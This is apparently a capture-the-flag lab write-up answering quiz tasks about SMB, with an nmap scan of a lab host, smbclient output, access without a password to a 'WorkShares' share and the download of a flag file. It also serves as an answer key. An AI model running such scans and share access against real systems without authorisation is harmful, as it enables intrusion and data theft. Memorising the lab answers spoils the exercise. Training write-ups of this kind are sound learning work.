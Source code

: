 ## Task 1

What does the 3-letter acronym SMB stand for? server message block

## Task 2

What port does SMB use to operate at? 445

## Task 3

What network communication model does SMB use, architecturally speaking? client-server model 

## Task 4

What is the service name for port 445 that came up in our nmap scan? microsoft-ds
```bash
┌──(defalt@kali)-[~/Documents/htb/starting point /Tier 0]
└─$ nmap -sC -sV 10.129.1.12   
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-10 02:29 PDT
Nmap scan report for 10.129.1.12
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-04-10T13:29:47
|_  start_date: N/A
|_clock-skew: 4h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.33 seconds
```
## Task 5

What is the tool we use to connect to SMB shares from our Linux distribution? smbclient

## Task 6

What is the `flag` or `switch` we can use with the SMB tool to `list` the contents of the share? -L

```bash
┌──(defalt@kali)-[~/Documents/htb/starting point /Tier 0]
└─$ smbclient -h   
Usage: smbclient [-?EgqBVNkPeC] [-?|--help] [--usage] [-R|--name-resolve=NAME-RESOLVE-ORDER] [-M|--message=HOST] [-I|--ip-address=IP] [-E|--stderr] [-L|--list=HOST]
        [-m|--max-protocol=LEVEL] [-T|--tar=<c|x>IXFvgbNan] [-D|--directory=DIR] [-c|--command=STRING] [-b|--send-buffer=BYTES] [-t|--timeout=SECONDS] [-p|--port=PORT]
        [-g|--grepable] [-q|--quiet] [-B|--browse] [-d|--debuglevel=DEBUGLEVEL] [-s|--configfile=CONFIGFILE] [-l|--log-basename=LOGFILEBASE] [-V|--version] [--option=name=value]
        [-O|--socket-options=SOCKETOPTIONS] [-n|--netbiosname=NETBIOSNAME] [-W|--workgroup=WORKGROUP] [-i|--scope=SCOPE] [-U|--user=USERNAME] [-N|--no-pass] [-k|--kerberos]
        [-A|--authentication-file=FILE] [-S|--signing=on|off|required] [-P|--machine-pass] [-e|--encrypt] [-C|--use-ccache] [--pw-nt-hash] service <password>
```

## Task 7

What is the name of the share we are able to access in the end? workshares

## Task 8

What is the command we can use within the SMB shell to download the files we find? get

```bash
┌──(defalt@kali)-[~/Documents/htb/starting point /Tier 0]
└─$ smbclient \\\\10.129.1.12\\WorkShares                                                                                                                                                 1 ⨯
Enter WORKGROUP\defalt's password: 
Try "help" to get a list of possible commands.
smb: \> help
?              allinfo        altname        archive        backup         
blocksize      cancel         case_sensitive cd             chmod          
chown          close          del            deltree        dir            
du             echo           exit           get            getfacl        
geteas         hardlink       help           history        iosize         
lcd            link           lock           lowercase      ls             
l              mask           md             mget           mkdir          
more           mput           newer          notify         open           
posix          posix_encrypt  posix_open     posix_mkdir    posix_rmdir    
posix_unlink   posix_whoami   print          prompt         put            
pwd            q              queue          quit           readlink       
rd             recurse        reget          rename         reput          
rm             rmdir          showacls       setea          setmode        
scopy          stat           symlink        tar            tarmode        
timeout        translate      unlock         volume         vuid           
wdel           logon          listconnect    showconnect    tcon           
tdis           tid            utimes         logoff         ..             
!              
smb: \> help get
HELP get:
    <remote name> [local name] get a file
```

 
## Submit Flag

Submit root flag

```bash
smb: \> ls
  .                                   D        0  Mon Mar 29 01:22:01 2021
  ..                                  D        0  Mon Mar 29 01:22:01 2021
  Amy.J                               D        0  Mon Mar 29 02:08:24 2021
  James.P                             D        0  Thu Jun  3 01:38:03 2021

        5114111 blocks of size 4096. 1748443 blocks available
smb: \> cd James.P\
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 01:38:03 2021
  ..                                  D        0  Thu Jun  3 01:38:03 2021
  flag.txt                            A       32  Mon Mar 29 02:26:57 2021

        5114111 blocks of size 4096. 1752177 blocks available
smb: \James.P\> get flag.txt 
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```


